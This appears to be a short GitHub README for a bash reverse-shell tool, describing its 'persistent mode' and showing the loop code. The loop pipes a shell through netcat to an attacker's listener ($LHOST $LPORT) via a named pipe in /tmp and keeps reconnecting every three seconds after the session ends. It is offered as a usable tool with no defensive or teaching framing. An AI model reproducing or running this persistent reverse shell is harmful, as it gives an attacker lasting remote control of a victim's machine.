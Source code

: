 # bash-reverse-shell
reverse shell bash only

# persistent mode
this script has persistent mode, when user done with the shell and exit.. it will still trying to connect to the target listener port

```
        while true # just loop, nothing special
        do
                cat /tmp/zeusPipe|$0 shell 2>&1|nc $LHOST $LPORT >/tmp/zeusPipe # trying to connect to the listener
                sleep 3 # sleep 3 second when listener not open the port or after user exit the shell
        done
```

# no idle mode :(
there's no idle mode currently 
